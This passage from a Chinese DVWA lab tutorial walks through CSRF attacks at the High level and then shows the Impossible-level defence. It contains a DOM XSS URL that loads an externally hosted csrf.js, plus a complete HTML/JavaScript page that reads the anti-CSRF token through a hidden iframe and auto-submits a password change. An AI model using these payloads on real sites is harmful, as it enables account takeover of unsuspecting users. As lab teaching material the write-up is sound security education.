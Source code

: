 将这个 csrf.js 上传到外网的服务器上，国光这里临时放在我的网站根目录下：

```payload
http://ip/csrf.js
```

然后此时访问 DVWA DOM XSS 的 High 级别，直接发起 XSS 测试（后面 XSS 会详细来讲解）：



```javascript
http://ip/vulnerabilities/xss_d/?default=English&a=</option></select><script src="http://www.sqlsec.com/csrf.js"></script>
```

这里直接通过 script 标签的 src 来引入外部 js，访问之后此时密码就被更改为 111 了

1. **常规思路 HTML 发起 CSRF 请求**

假设攻击者这里可以将 HTML 保存上传到 CORS 的跨域白名单下的话，那么这里也可以通过 HTML 这种组合式的 CSRF 攻击。

```html
<script>
  function attack(){
    var token = document.getElementById("get_token").contentWindow.document.getElementsByName('user_token')[0].value
    document.getElementsByName('user_token')[0].value=token;
    alert(token);
    document.getElementById("csrf").submit();
  }
</script>

<iframe src="http://ip/vulnerabilities/csrf/" id="get_token" style="display:none;">
</iframe>

<body onload="attack()">
  <form method="GET" id="csrf" action="http://ip/vulnerabilities/csrf/">
    <input type="hidden" name="password_new" value="111">
    <input type="hidden" name="password_conf" value="111">
    <input type="hidden" name="user_token" value="">
    <input type="hidden" name="Change" value="Change">
  </form>
</body>
```

将上述文件保存为 csrf.html 然后放入到 CORS 白名单目录下，这在实战中比较少见，这里为了演示效果，国光将这个文件放入到靶场服务器的根目录下，然后直接访问这个页面即可发起 CSRF 攻击：

```payload
http://ip/csrf.html
```

### Impossible

下面来看一下 Impossible 的防护方式：

```php
# 依然检验用户的 token
checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

# 需要输入当前的密码
$pass_curr = $_GET[ 'password_current' ];
$pass_new  = $_GET[ 'password_new' ];
$pass_conf = $_GET[ 'password_conf' ];

# 检验当前密码是否正确
$data = $db->prepare( 'SELECT password FROM users WHERE user = (:user) AND password = (:password) LIMIT 1;' );
```
